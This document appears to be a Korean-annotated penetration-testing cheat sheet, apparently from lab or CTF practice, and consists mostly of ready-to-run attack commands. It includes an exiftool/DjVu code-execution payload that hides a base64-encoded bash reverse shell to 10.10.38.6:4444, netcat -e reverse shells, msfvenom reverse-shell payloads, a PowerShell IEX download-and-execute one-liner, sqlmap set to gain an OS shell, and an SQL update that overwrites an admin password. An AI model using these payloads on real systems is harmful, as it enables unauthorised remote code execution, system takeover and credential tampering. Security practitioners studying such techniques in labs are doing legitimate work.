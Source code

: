 # Squid Proxy
```bash
python3 spose.py --proxy http://10.10.11.131:3128 --target 10.10.11.131
```
- https://github.com/aancw/spose
---
# Windows Download Command
```powershell
certutil -urlcache -f -split <target>

Invoke-WebRequest <target> -OutFile <Path>
```

---
# exiftool

```bash
exiftool -a -u brochure.pdf
```

- `exiftool` : 이미지/문서/영상 파일의 메타데이터를 조회·수정하는 도구  
- `-a` (*allow duplicates*) : 중복 키가 있어도 모두 표시  
- `-u` (*unknown*) : 표준에 없는(알 수 없는) 태그까지 표시  
- `brochure.pdf` : 대상 파일

## exiftool code execution
```bash
payload : (metadata "\c${system('echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMzguNi80NDQ0IDA+JjEK | base64 -d | bash')};")
bzz payload payload.bzz
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
file exploit.djvu
```
---

# 교차 컴파일

```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

---
# curl
```bash
curl -L http://192.168.132.65
```

- `-L` : redirection

---
# wget
```bash
wget http://ip/test.txt -O /tmp/test.txt
```

- `-O` : 데이터 저장(대문자)

---
# find
```bash
find . -name '*config*' 2>/dev/null
```
---

# sqlite3
```bash
sqlite3 {dbname}
.tables
.headers on   # 컬럼 이름 출력
.mode column  # 표 형식으로 출력
select * from user;
.quit
```
---
# msfvenom
```bash
msfvenom -p windows/shell/reverse_tcp -f python
# 바이트 타입을 명시하기 위해서 b가 붙여서 나옴.

msfvenom -p windows/shell/reverse_tcp -f c
# 바이트 타입 명시 필요 없어서 b가 안붙여서 나옴.
```
# nc
```powershell
# windows
nc <ip> <port> -e cmd.exe
```
```bash
# linux
nc <ip> <port> -e /bin/sh
```

---
# sqlmap
```bash
sqlmap -u "http://192.168.211.52:3305/zm/index.php" \
       --data="view=request&request=log&task=query&limit=100&minTime=1466674406.084434" \
       -p limit -batch --level=5 --risk=3 --os-shell
```
 `-u "http://192.168.211.52:3305/zm/index.php"`
- 대상 URL을 지정합니다.  
- 여기서는 공격 대상 웹 애플리케이션의 엔드포인트 `/zm/index.php`입니다.

 `--data="..."`
- `POST` 방식으로 보낼 데이터(Body 내용)를 지정합니다.  
- 여기서는 `view`, `request`, `task`, `limit`, `minTime` 파라미터가 포함되어 있습니다.

 `-p limit`
- 공격할 대상 파라미터를 지정합니다.  
- 여기서는 `limit` 파라미터가 SQL Injection 취약점이 있을 것으로 판단되어 지정했습니다.

 `-batch`
- 모든 질문에 자동으로 기본값(yes/no)을 선택하여 **비대화식(자동화)**으로 실행합니다.  
- 사용자 입력 없이 빠르게 공격 시도할 수 있습니다.

 `--level=5`
- 탐지 강도를 설정합니다. (기본값 1, 최대 5)  
- 값이 클수록 더 많은 테스트 페이로드를 사용합니다.  
- 단, 요청 횟수가 많아져 시간이 오래 걸릴 수 있습니다.

 `--risk=3`
- 공격 시도의 **위험도 수준**을 설정합니다. (기본값 1, 최대 3)  
- 값이 높을수록 DB에 부담을 주거나 서비스에 영향을 줄 수 있는 페이로드까지 시도합니다.

 `--os-shell`
- SQL Injection을 통해 DB 서버에 접근한 뒤, **운영체제(OS) 명령어 쉘**을 실행하려는 옵션입니다.  
- DB 계정 권한이 충분하다면 `whoami`, `ls`, `id` 같은 명령을 실행할 수 있습니다.  
- 권한이 제한적일 경우 실패할 수 있습니다.
---
# mysql
```bash
mysql -hlocalhost -uadmin -padmin --skip-ssl
```
```mysql
SHOW GRANTS FOR CURRENT_USER();
```
- 현재 접속한 계정의 권한 확인
```mysql
update planning_user set password ='df5b909019c9b1659e86e0d6bf8da81d6fa3499e' where user_id='ADM';
```
- 문자는 ''로 감싸줘야 인식.
- 감싸지 않으면 컬럼명으로 인식한다.
---
# powershell
```powershell
IEX(New-Object Net.WebClient).DownloadString("http://ip/file")
```
---
# SNMP(Simple Network Management Protocol)
- 네트워크 장비(라우터, 스위치, 서버, 프린터 등)를 관리 및 모니터링하기 위한 표준 프로토콜
```bash
snmp-check <ip>
```
---
# IMAP3
```bash
telnet <ip> 143

a LOGIN <id> <password>

a LIST "" *

a SELECT INBOX

a SEARCH ALL

a fetch <NUMBER> body[header]

a fetch <NUMBER> body[text]

a LOGOUT
```

